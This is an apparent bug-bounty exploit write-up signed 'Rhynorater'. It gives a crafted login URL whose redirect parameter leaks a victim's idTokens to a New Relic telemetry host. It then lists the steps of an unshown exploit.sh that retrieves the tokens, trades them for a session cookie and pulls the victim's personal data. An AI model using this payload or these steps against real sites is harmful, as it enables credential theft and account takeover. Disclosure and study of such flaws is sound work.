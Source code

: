 This exploit is used in conjunction with this URL:
```
https://auth.redacted.com/login?realm=%2Fcustomers&goto=https://bam.eu01.nr-data.net%2Fv1%2Faccounts%2F1337%2FeventsApi-Key%3Deu01xxREDACTEDFNRAL%26%3Fresponse_type%3Dcode%26client_id%3DclientIdFinancial%26redirect_uri%3Dhttps%3A%2F%2Facc-data.redacted.com%2Fauth%2Fcallback%26scope%3Dopenid%2520iid%2520uci%2520profile%2520card.account&channel=channelredacted&successMessage=false
```

When a victim visits the above URL and logs in, it will:
1. Leak the victim's `idTokens` to `bam.eu01.nr-data.net`

Then, the attacker (running `zsh ./exploit.sh`):
1. Retrieves the `idTokens` from New Relic via the NRQL API
2. Appends the possible endings
3. Fetches the valid `w82S5XX1`
4. Trades the `w82S5XX1` and `idTokens` for a session cookie (retrying if needed with token2)
5. Retrieves the victim's PII

GG.

There is always a way. Keep looking deeper.

-Rhynorater